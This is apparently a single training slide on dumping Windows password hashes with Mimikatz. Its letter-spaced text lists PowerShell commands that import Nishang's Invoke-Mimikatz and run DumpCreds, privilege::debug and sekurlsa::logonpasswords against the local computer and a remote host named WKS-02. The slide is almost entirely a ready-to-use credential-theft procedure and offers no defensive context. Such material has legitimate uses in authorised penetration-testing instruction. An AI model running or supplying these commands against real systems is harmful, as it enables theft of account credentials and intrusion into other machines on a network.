

# DUMPING HASHES USING MIMIKATZ
U s i n g t h e p o w e r s h e l l o f M i m i k a t z
I m p o r t - M o d u l e . \ I n v o k e - M i m i k a t z - n i s h a n g . p s 1

To D u m p c r e d e n t i a l s i n l o c a l c o m p u t e r
I n v o k e - M i m i k a t z - D u m p C r e d s
O r
I n v o k e - M i m i k a t z - C o m m a n d p r i v i l e g e : : d e b u g
I n v o k e - M i m i k a t z - C o m m a n d s e k u r l s a :: l o g o n p a s s w o r d s

To D u m p c r e d e n t i a l s o n R e m o t e M a c h i n e
I n v o k e - M i m i k a t z - D u m p C r e d s - C o m p u t e r N a m e W K S - 02
131